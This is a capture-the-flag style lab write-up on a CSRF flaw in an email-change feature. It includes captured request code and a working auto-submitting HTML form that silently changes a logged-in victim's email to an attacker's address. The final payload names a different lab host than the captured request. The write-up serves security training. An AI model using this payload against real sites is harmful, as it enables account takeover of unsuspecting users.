

# CSRF vulnerability with no defenses

This lab's email change functionality is vulnerable to CSRF.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

You can log in to your own account using the following credentials: `wiener:peter`.

---

## 1. Detection

- Clicked `ACCESS THE LAB` and was presented with the blog page. Clicked `My Account` and logged in with `wiener:peter`, landing on `/my-account?id=wiener`.
- The goal was to craft an HTML payload that silently changes a victim's email when they visit an attacker-controlled page. The exploit server at `/exploit` is the delivery mechanism.
- Tried changing my own email address and captured the request via `Copy as fetch` in the browser's Network tab:

```javascript
fetch("https://0a2200ae046e9b4380540d9800220037.web-security-academy.net/my-account/change-email", {
  "headers": {
    "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "accept-language": "en-IN,en-GB;q=0.9,en-US;q=0.8,en;q=0.7",
    "cache-control": "max-age=0",
    "content-type": "application/x-www-form-urlencoded",
    "priority": "u=0, i",
    "sec-ch-ua": "\"Not;A=Brand\";v=\"8\", \"Chromium\";v=\"150\", \"Google Chrome\";v=\"150\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Windows\"",
    "sec-fetch-dest": "document",
    "sec-fetch-mode": "navigate",
    "sec-fetch-site": "same-origin",
    "sec-fetch-user": "?1",
    "upgrade-insecure-requests": "1"
  },
  "referrer": "https://0a2200ae046e9b4380540d9800220037.web-security-academy.net/my-account?id=wiener",
  "body": "email=helloworld%40nope.com",
  "method": "POST",
  "mode": "cors",
  "credentials": "include"
});
```

- Two things stood out immediately:
  - There was **no CSRF token** anywhere in the request body, headers, or cookies.
  - The `session` cookie had `SameSite` set to `None`.

---

## 2. Analysing the Cookie Attributes

- Inspected the `session` cookie's attributes in DevTools:



- `SameSite: None` means the browser will send this cookie on **every** request to the target origin, regardless of where that request originates — including cross-origin requests triggered by a third-party page. This is the opposite of `SameSite: Strict` (which would block the cookie from being sent on cross-site requests) or `SameSite: Lax` (which permits cross-site requests only for top-level navigations using safe HTTP methods). With `None`, the victim's session cookie will be attached automatically when the CSRF form submission hits the target origin, authenticating the request as if it came from the victim themselves.

---

## 3. Crafting the CSRF Payload

- Used [security.love/CSRF-PoC-Genorator](https://security.love/CSRF-PoC-Genorator/) to generate a base HTML PoC, providing:
  - **Method:** `POST`
  - **Encoding:** `application/x-www-form-urlencoded`
  - **Data:** `email=test@test.com`
  - **URI:** `https://0a2200ae046e9b4380540d9800220037.web-security-academy.net/my-account/change-email`

- The generator produced the following HTML:

```html
<html>
  <form enctype="application/x-www-form-urlencoded" method="POST" action="https://0a2200ae046e9b4380540d9800220037.web-security-academy.net/my-account/change-email">
    <table>
      <tr>
        <td>email</td>
        <td><input type="text" value="test@test.com" name="email"></td>
      </tr>
    </table>
    <input type="submit" value="https://0a2200ae046e9b4380540d9800220037.web-security-academy.net/my-account/change-email">
  </form>
</html>
```

- This was correct but required a manual button click — not ideal for a silent, one-click attack. Removed the submit button and added a JavaScript snippet to auto-submit the form the moment the page loads, and updated the target email to the attacker's address:

```html
<html>
  <form enctype="application/x-www-form-urlencoded" method="POST" action="https://0af700c003e3789880b3033d004500eb.web-security-academy.net/my-account/change-email">
    <table>
      <tr>
        <td>email</td>
        <td><input type="text" value="attacker@web-security-academy.net" name="email"></td>
      </tr>
    </table>
  </form>
  <script>
    document.forms[0].submit();
  </script>
</html>
```

> **Why this works:** The victim visits the exploit page while logged into the target application. The page immediately auto-submits a cross-origin POST to `/my-account/change-email`. Because the session cookie is marked `SameSite: None`, the browser attaches it to the request automatically. The server receives a fully authenticated POST with the attacker's email in the body, with no CSRF token to validate and no origin checking in place — so it processes the request as legitimate and changes the victim's email.

---

## 4. Solve the Challenge

- Pasted the final payload into the exploit server at `/exploit` and delivered it to the victim.
- The victim's browser auto-submitted the form on page load, sending an authenticated `POST` to `/my-account/change-email` with the attacker's email address.
- The email was changed successfully. Lab solved.